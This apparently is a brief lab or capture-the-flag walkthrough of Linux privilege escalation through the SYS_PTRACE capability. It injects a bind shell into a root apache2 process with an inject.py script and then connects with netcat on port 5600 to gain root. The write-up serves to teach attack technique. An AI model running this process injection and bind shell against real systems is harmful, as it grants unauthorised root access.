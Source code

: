 Then open netcat to listen.
I think it was the wrong PID so he list them.
He list the PID with root permisions.
Then use the injector with the good PID
And he use the commands:
```sh
ps -eax|grep root
ps -eaf|grep root
```


# exploit
https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc

```sh
saket@ubuntu:~$ ps -eaf|grep root
ps -eaf|grep apache
root        1363       1  0 05:44 ?        00:00:00 /usr/sbin/apache2 -k start
```

![](https://i.imgur.com/Z5L3wdi.png)
The PID is 1363.
```sh
python2 inject.py 1363
```
You can check the open port, it should be 5600.
```sh
netstat -tnlp
```
![](https://i.imgur.com/Xe2o3uN.png)
Then we can use netcat to listen on the port.
```sh
nc 127.0.0.1 5600
```
Now you are root.
![](https://i.imgur.com/tUBWRPo.png)













